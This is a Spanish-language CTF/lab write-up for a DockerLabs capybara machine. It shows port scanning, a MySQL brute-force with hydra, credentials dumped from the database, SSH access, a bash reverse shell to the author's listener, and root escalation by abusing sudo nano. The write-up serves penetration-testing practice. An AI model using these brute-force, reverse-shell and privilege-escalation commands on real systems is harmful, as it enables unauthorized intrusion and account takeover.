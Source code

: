 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/675538d0-d1b2-48e0-945f-c386438e1719)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 8.9p1 (Ubuntu)
2.  **80/tcp(HTTP):** Apache httpd 2.4.52
3. **3306/tcp(Mysql):** MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a una pagina con una foto de un capybara.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fd2f79b1-88cd-43da-b34a-4e9b5ab15fd0)

# Fase 2- Exploración

#### CTRL + U
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fb1fe7ff-ad8d-4554-a601-dfc7d6347f6b)
Al hacer fuzzing web no encontramos nada, pero al ver el codigo interno de la pagina encontramos un mensaje `"Hola capybarauser, esta es una web de capybaras. He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou"`

Nos dan una pista, y es que la contraseña de **"capybarauser"** se encuentra al final del famoso diccionario **rockyou**. El comando **tac** que se menciona, permite leer y mostrar el contenido de un archivo en orden inverso. De forma que le aplicamos este comando al **rockyou** y almacenamos el resultado en un nuevo fichero que llamaré "**MiRockYou.txt**" para poder usarlo como diccionario en un ataque de fuerza bruta.

```shell
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

# Fase 3- Explotación

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/67e133ae-04d8-4332-b00c-d72aec310932)
Tenemos que tener cuidado con las primeras líneas del nuevo diccionario, que están corruptas, quitamos los caracteres extraños y continuamos con la fuerza bruta. Con este nuevo diccionario realizaremos un ataque de fuerza bruta contra el puerto **3306** donde corre el servicio **MySQL**.. Lo haremos con la herramienta **hydra**.

```shell
hydra -l capybarauser -P MiRockYou.txt mysql://172.17.0.2 -t 4
----------------------------------------------------------------
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
```
Encontramos credenciales para el usuario **capybarauser:ie168**

Accedemos a la base de datos con las nuevas credenciales:
```shell
mysql -h 172.17.0.2 -P 3306 -u capybarauser -p
(ponemos la contraseña ie168)
```

Enumeraremos un poco la base de datos.
```sql
MariaDB [(none)]> show databases;
------------------------------------
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
```

```sql
use pinguinasio_db;
show TABLES;
-------------------------------
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0,001 sec)
```

```sql
select * from users;
------------------------------
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0,001 sec)
```

Encontramos un usuario y su contraseña: "**mario:pinguinomolon123**" Trataremos de entrar por **SSH**.

```shell
ssh mario@172.17.0.2
```

Estamos dentro!

# Fase 4- Privilegios
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.17/443 0>&1" 
```
(Siendo la 192.168.1.17 mi IP)

---

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:
```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

---

## Escalada de privilegios


Hacemos un **sudo -l** para ver si podemos ejecutar algo con privilegios de otro usuario o de root.

```shell
sudo -l
------------------
(ALL : ALL) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario root. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

Somos root!
```shell
whoami
----------------
root
```
